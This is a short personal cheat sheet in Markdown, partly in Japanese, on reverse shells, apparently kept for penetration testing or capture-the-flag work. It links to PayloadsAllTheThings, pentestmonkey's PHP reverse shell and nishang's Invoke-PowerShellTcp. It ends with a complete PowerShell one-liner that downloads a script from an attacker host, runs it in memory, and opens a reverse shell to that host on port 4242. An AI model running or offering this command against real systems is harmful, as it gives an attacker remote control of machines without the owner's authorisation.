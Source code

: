 # reverse_shell

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#reverse-shell-cheat-sheet

## php
pentestmonkey/php-reverse-shellが個人的に一番使いやすい

https://github.com/pentestmonkey/php-reverse-shell

## powershell
[Invoke-PowerShellTcp(nishang)](https://github.com/sanposhiho/MY_CHEAT_SHEET/blob/master/Windows/Invoke-PowerShellTcp.md)

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.66.152:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.66.152 -Port 4242
```
